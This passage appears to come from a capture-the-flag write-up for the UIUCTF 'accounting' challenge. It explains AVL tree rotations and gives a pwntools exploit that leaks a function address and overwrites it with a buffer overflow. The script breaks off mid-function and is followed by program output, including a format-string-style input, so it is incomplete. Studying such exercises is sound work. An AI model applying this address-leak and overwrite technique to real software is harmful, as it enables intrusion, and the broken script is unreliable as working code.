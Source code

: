 "WHATTT?!", I hear you say. Did we just make things worse, since node 25 is in an even lower position now?

This is the unintuitive part, because what we were really doing is to give some nodes to the right subtree of 20. Now, we insert node 21, which forces the node at 20 to undergo a rotation:

{% include figure.html 
  path="assets/img/screenshots/accounting_accident_avl_5.png" 
  width="400px"
  class="z-depth-1" 
  caption="AVL tree after inserting 21"
%}

Now we have node 25 at a rather sweet spot. Finally, let's cause a rotation at 30 by causing one of its child to increase in height. We can grow the height of the subtree rooted at 20 by either adding something less than 10, or something between 21 or 25. Let's go with adding 22:

{% include figure.html 
  path="assets/img/screenshots/accounting_accident_avl_6.png" 
  width="400px"
  class="z-depth-1" 
  caption="AVL tree after inserting 22"
%}

We did it!

### Full Exploit
The full exploit script is given below:

{% highlight C linenos %}
{% raw %}
#!/usr/bin/env python3
from pwn import *

elf = ELF("./accounting")

context.binary = elf
context.terminal = ['kitty', '-e', 'sh', '-c']

if args.REMOTE:
    conn = remote("chal.uiuc.tf", 2001)
else:
    conn = process([elf.path])

def main():
    # Note that each of the recv steps can take a while to run,
    # because of the fancy printing. It is not frozen!
    print(conn.recvuntil("{"))
    leak = conn.recvuntil("}")[:-1]

    # Leak print_flag address
    flag_addr = int(leak, 16)
    print("print_flag address: ", hex(flag_addr))

    # Overflow exploit
    print(conn.recvuntil("Item: "))
    exp = b"A"*0x10
    exp += p32(flag_addr)
    conn.sendline(exp)

    # First price input

[NookAccounting]: Booting up Fancy Laser Accounting Generator (F.L.A.G.) at {0x8048878}
[NookAccounting]: Added "Apples" with cost of 10 bells to accounting spreadsheet.
[NookAccounting]: Added "Fancy Seashells" with cost of 20 bells to accounting spreadsheet.
[NookAccounting]: Added "Tom Nook Shirts" with cost of 30 bells to accounting spreadsheet.
[NookAccounting]: Added "Airplane Ticket" with cost of 40 bells to accounting spreadsheet.
[NookAccounting]: Added "ATM Repairs" with cost of 50 bells to accounting spreadsheet.
[Isabelle]: Oh no! I cant seem to find what this item is, but it cost 25 bells, what is it?
[Isabelle]: Ohmygosh! Thank you for remembering! Now I can get back to work!
[NookAccounting]: Added "%x %x %x AAAAAA" with cost of 25 bells to accounting spreadsheet.
[Isabelle]: Ohmyheck! I dont know how much "Shrub Trimming" costs. Can you tell me?
[NookAccounting]: Added "Shrub Trimming" with cost of 1 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Raymond Hush $$" costs. Can you tell me?
[NookAccounting]: Added "Raymond Hush $$" with cost of -1 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "Town Hall Food" costs. Can you tell me?
[NookAccounting]: Added "Town Hall Food" with cost of 0 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Ohmyheck! I dont know how much "New Wall Art" costs. Can you tell me?
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x80487a6
[NookAccounting]: Added "New Wall Art" with cost of 22 bells to accounting spreadsheet.
[Isabelle]: Thank you so much! You're the best, I added it to the accounting system now
[Isabelle]: Okay thank you so much! I'll run the accounting software at address 0x8048878